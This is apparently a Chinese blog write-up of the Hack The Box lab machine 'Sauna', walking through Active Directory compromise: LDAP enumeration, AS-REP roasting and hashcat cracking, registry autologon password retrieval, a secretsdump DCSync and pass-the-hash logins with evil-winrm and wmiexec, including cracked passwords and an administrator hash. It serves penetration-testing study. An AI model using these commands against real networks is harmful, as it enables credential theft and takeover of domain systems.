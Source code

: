 ```yaml
---
title: Sauna
date: 2021-12-24 13:54:20
tags: Hack The box
categories: 内网
---
```


## 靶机信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/0c4f7155f0a144fca320112bb07de39c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 信息收集
发现开放了445，80，88，5985这些常见的可能存在漏洞的端口。因为存在ldap服务，可能考虑到存在内网
![在这里插入图片描述](https://img-blog.csdnimg.cn/18c6ed7749514992adad88f2a6fa97f2.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

发现了smb服务，尝试是否可以登录
![在这里插入图片描述](https://img-blog.csdnimg.cn/cae8f24d7edf4d9ab4db6a15e3d5c60b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
登录失败，那我们查看一下ldap有没有什么有价值的信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/f0249267ceca4d73943001c895249779.png)

```bash
ldapsearch -x -H ldap://10.10.10.175 -b "dc=EGOTISTICAL-BANK,dc=local"
```

```bash
# extended LDIF
#
# LDAPv3
# base <dc=EGOTISTICAL-BANK,dc=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#
# EGOTISTICAL-BANK.LOCAL
dn: DC=EGOTISTICAL-BANK,DC=LOCAL
objectClass: top
objectClass: domain
objectClass: domainDNS
distinguishedName: DC=EGOTISTICAL-BANK,DC=LOCAL
instanceType: 5
whenCreated: 20200123054425.0Z
whenChanged: 20211018114224.0Z
subRefs: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
subRefs: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
subRefs: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
uSNCreated: 4099
dSASignature:: AQAAACgAAAAAAAAAAAAAAAAAAAAAAAAAQL7gs8Yl7ESyuZ/4XESy7A==
uSNChanged: 98336
name: EGOTISTICAL-BANK
objectGUID:: 7AZOUMEioUOTwM9IB/gzYw==
replUpToDateVector:: AgAAAAAAAAAGAAAAAAAAAEbG/1RIhXVKvwnC1AVq4o8WgAEAAAAAAJ/uf
 RcDAAAAq4zveNFJhUSywu2cZf6vrQzgAAAAAAAAKDj+FgMAAADc0VSB8WEuQrRECkAJ5oR1FXABAA
 AAAADUbg8XAwAAAP1ahZJG3l5BqlZuakAj9gwL0AAAAAAAANDwChUDAAAAm/DFn2wdfEWLFfovGj4
 TThRgAQAAAAAAENUAFwMAAABAvuCzxiXsRLK5n/hcRLLsCbAAAAAAAADUBFIUAwAAAA==
creationTime: 132790309446175365
forceLogoff: -9223372036854775808
lockoutDuration: -18000000000
lockOutObservationWindow: -18000000000
lockoutThreshold: 0
maxPwdAge: -36288000000000
minPwdAge: -864000000000
minPwdLength: 7
modifiedCountAtLastProm: 0
nextRid: 1000
pwdProperties: 1
pwdHistoryLength: 24
objectSid:: AQQAAAAAAAUVAAAA+o7VsIowlbg+rLZG
serverState: 1
uASCompat: 1
modifiedCount: 1
auditingPolicy:: AAE=
nTMixedDomain: 0
rIDManagerReference: CN=RID Manager$,CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL
fSMORoleOwner: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name
 ,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
systemFlags: -1946157056
wellKnownObjects: B:32:6227F0AF1FC2410D8E3BB10615BB5B0F:CN=NTDS Quotas,DC=EGOT
 ISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:F4BE92A4C777485E878E9421D53087DB:CN=Microsoft,CN=Progra
 m Data,DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:09460C08AE1E4A4EA0F64AEE7DAA1E5A:CN=Program Data,DC=EGO
 TISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:22B70C67D56E4EFB91E9300FCA3DC1AA:CN=ForeignSecurityPrin
 cipals,DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:18E2EA80684F11D2B9AA00C04F79F805:CN=Deleted Objects,DC=
 EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:2FBAC1870ADE11D297C400C04FD8D5CD:CN=Infrastructure,DC=E
 GOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AB8153B7768811D1ADED00C04FD8D5CD:CN=LostAndFound,DC=EGO
 TISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AB1D30F3768811D1ADED00C04FD8D5CD:CN=System,DC=EGOTISTIC
 AL-BANK,DC=LOCAL
wellKnownObjects: B:32:A361B2FFFFD211D1AA4B00C04FD7D83A:OU=Domain Controllers,
 DC=EGOTISTICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:AA312825768811D1ADED00C04FD8D5CD:CN=Computers,DC=EGOTIS
 TICAL-BANK,DC=LOCAL
wellKnownObjects: B:32:A9D1CA15768811D1ADED00C04FD8D5CD:CN=Users,DC=EGOTISTICA
 L-BANK,DC=LOCAL
objectCategory: CN=Domain-DNS,CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,D
 C=LOCAL
isCriticalSystemObject: TRUE
gPLink: [LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=Syste
 m,DC=EGOTISTICAL-BANK,DC=LOCAL;0]
dSCorePropagationData: 16010101000000.0Z
otherWellKnownObjects: B:32:683A24E2E8164BD3AF86AC3C2CF3F981:CN=Keys,DC=EGOTIS
 TICAL-BANK,DC=LOCAL
otherWellKnownObjects: B:32:1EB93889E40C45DF9F0C64D23BBB6237:CN=Managed Servic
 e Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL
masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN
 =Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
ms-DS-MachineAccountQuota: 10
msDS-Behavior-Version: 7
msDS-PerUserTrustQuota: 1
msDS-AllUsersTrustQuota: 1000
msDS-PerUserTrustTombstonesQuota: 10
msDs-masteredBy: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-Na
 me,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
msDS-IsDomainFor: CN=NTDS Settings,CN=SAUNA,CN=Servers,CN=Default-First-Site-N
 ame,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
msDS-NcType: 0
msDS-ExpirePasswordsOnSmartCardOnlyAccounts: TRUE
dc: EGOTISTICAL-BANK
# Users, EGOTISTICAL-BANK.LOCAL
dn: CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL
# Computers, EGOTISTICAL-BANK.LOCAL
dn: CN=Computers,DC=EGOTISTICAL-BANK,DC=LOCAL
# Domain Controllers, EGOTISTICAL-BANK.LOCAL
dn: OU=Domain Controllers,DC=EGOTISTICAL-BANK,DC=LOCAL
# System, EGOTISTICAL-BANK.LOCAL
dn: CN=System,DC=EGOTISTICAL-BANK,DC=LOCAL
# LostAndFound, EGOTISTICAL-BANK.LOCAL
dn: CN=LostAndFound,DC=EGOTISTICAL-BANK,DC=LOCAL
# Infrastructure, EGOTISTICAL-BANK.LOCAL
dn: CN=Infrastructure,DC=EGOTISTICAL-BANK,DC=LOCAL
# ForeignSecurityPrincipals, EGOTISTICAL-BANK.LOCAL
dn: CN=ForeignSecurityPrincipals,DC=EGOTISTICAL-BANK,DC=LOCAL
# Program Data, EGOTISTICAL-BANK.LOCAL
dn: CN=Program Data,DC=EGOTISTICAL-BANK,DC=LOCAL
# NTDS Quotas, EGOTISTICAL-BANK.LOCAL
dn: CN=NTDS Quotas,DC=EGOTISTICAL-BANK,DC=LOCAL
# Managed Service Accounts, EGOTISTICAL-BANK.LOCAL
dn: CN=Managed Service Accounts,DC=EGOTISTICAL-BANK,DC=LOCAL
# Keys, EGOTISTICAL-BANK.LOCAL
dn: CN=Keys,DC=EGOTISTICAL-BANK,DC=LOCAL
# TPM Devices, EGOTISTICAL-BANK.LOCAL
dn: CN=TPM Devices,DC=EGOTISTICAL-BANK,DC=LOCAL
# Builtin, EGOTISTICAL-BANK.LOCAL
dn: CN=Builtin,DC=EGOTISTICAL-BANK,DC=LOCAL
# Hugo Smith, EGOTISTICAL-BANK.LOCAL
dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL
# search reference
ref: ldap://ForestDnsZones.EGOTISTICAL-BANK.LOCAL/DC=ForestDnsZones,DC=EGOTIST
 ICAL-BANK,DC=LOCAL
# search reference
ref: ldap://DomainDnsZones.EGOTISTICAL-BANK.LOCAL/DC=DomainDnsZones,DC=EGOTIST
 ICAL-BANK,DC=LOCAL
# search reference
ref: ldap://EGOTISTICAL-BANK.LOCAL/CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOC
 AL
# search result
search: 2
result: 0 Success
# numResponses: 19
# numEntries: 15
# numReferences: 3
```
<!--more-->

我们发现了一个可疑的用户。虽然是找到了用户名，但是我们不没有找到相对应的凭据。这时候我们切换一下思路，浏览一下web服务中有什么有价值的信息可以提供给我们的。
![在这里插入图片描述](https://img-blog.csdnimg.cn/b628002a16b3488681fd917e8308c38f.png)
在关于页面，我们看到了这两个用户的信息，长得貌似和我们信息收集出来的用户信息有点类似。那我们可以猜测这有可能是系统中真实存在的用户。
![在这里插入图片描述](https://img-blog.csdnimg.cn/c588d6ef57d149fabf5e731d9cc5036d.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试获取一下用户对应的哈希值，使用的工具是kerbrute，发现存在`hsmith`和`fsmith`这两个用户并且发现了它们的TGT条目。![在这里插入图片描述](https://img-blog.csdnimg.cn/2627486af25c47ab96b900a0ec75f39b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们先使用impacket包中的`GetNPUsers.py`获取fsmith用户的hash值。
![在这里插入图片描述](https://img-blog.csdnimg.cn/c0949aa761a34cd5ac4cb072c102afb1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们将他的hash值保存为一个文件，使用hashcat尝试能不能破解成功。破解成功的密码明文值为`Thestrokes23`。这里解释一下参数的含义，-m指的是指定文件的散列值类型，-a指的是指定破解模式，-w是指定字典。

```bash
hashcat -m 18200 -a 0 -w 3 fsmith.hash /usr/share/wordlists/rockyou.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/41e6765292b042028af2e5a18a7e63c0.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/e09120c6a3ab4d2ebc84502a9a0a58b4.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/353674983008426c8e5578b2c332cf9c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
既然破解到了密码，那我们可以登录SMB和WinRM服务了。我们先查看SMB服务，发现了两个共享服务，但是没有一个是有用的。。。
![在这里插入图片描述](https://img-blog.csdnimg.cn/03e072a109fb4bbea8beb8f0a955ab09.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们尝试利用WinRM吧，登录成功，拿到第一个flag值。
![在这里插入图片描述](https://img-blog.csdnimg.cn/6b0e08188c09403f95a20de67f6292de.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 提权
我们拿到的只是普通用户的权限，我们的目标当然是管理员权限。首先我们先看看都存在哪些用户，发现存在一个svc_loanmgr用户。
![在这里插入图片描述](https://img-blog.csdnimg.cn/db445cc21449494680e87b2d7ae329f8.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们使用powershell命令查看到它对应的密码。

```powershell
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/d774cd7d287541eb8c6c68b368fe0424.png)
这个命令要记住它还是有一定难度的，我们也可以通过上传`WindowsEnum.ps1`脚本来完成这任务。
![在这里插入图片描述](https://img-blog.csdnimg.cn/86d1160f61414340a78ab8afd834f34a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/8c4904ed1ffe46219f42192926e2b54c.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
发现这个密码后，我们可以尝试使用登陆进去。但是我试了很多次都是登陆失败
![在这里插入图片描述](https://img-blog.csdnimg.cn/431a23d1a026444781060ce56c83ade6.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那没办法了，我尝试使用`secretsdump.py`脚本看看能不能成功获取到这个用户的哈希值。我们意外发现administrator的hash值，发大财了

```bash
secretsdump.py -dc-ip 10.10.10.175 svc_loanmgr:Moneymakestheworldgoround\!@10.10.10.175
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/24f4c7e28cee4d33bef37d56e48ad59a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们使用`evil-winrm`进行登录，同时我们还可以使用`wmiexec.py`这个脚本进行登录，但是后者的速度要相较前者慢得多

```bash
evil-winrm -u administrator -H 823452073d75b9d1cf70ebdf86c7f98e -i 10.10.10.175
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/42316c86c9ba4720b9fd0f6684ecec19.png)

```bash
wmiexec.py -hashes :823452073d75b9d1cf70ebdf86c7f98e administrator@10.10.10.175
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/b57c846f068946208ef0673c1765edf0.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
